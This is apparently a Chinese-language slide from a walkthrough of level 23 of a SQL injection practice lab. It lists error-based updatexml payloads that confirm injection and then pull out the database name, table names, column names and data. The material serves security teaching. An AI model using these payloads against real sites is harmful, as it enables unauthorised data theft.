

# 第二十三关
判断是否存在注入：' and 1=1 or '1'='1

判断库名： 'and updatexml(1,concat(0x7e,(SELECT database()),0x7e),1)or '1'='1

判断表名：'and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='security'limit 0,1),0x7e),1)or '1'='1

判断列名：'and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),0x7e),1)or '1'='1

判断数据：'and updatexml(1,concat(0x7e,(select id from emails limit 0,1),0x7e),1)or '1'='1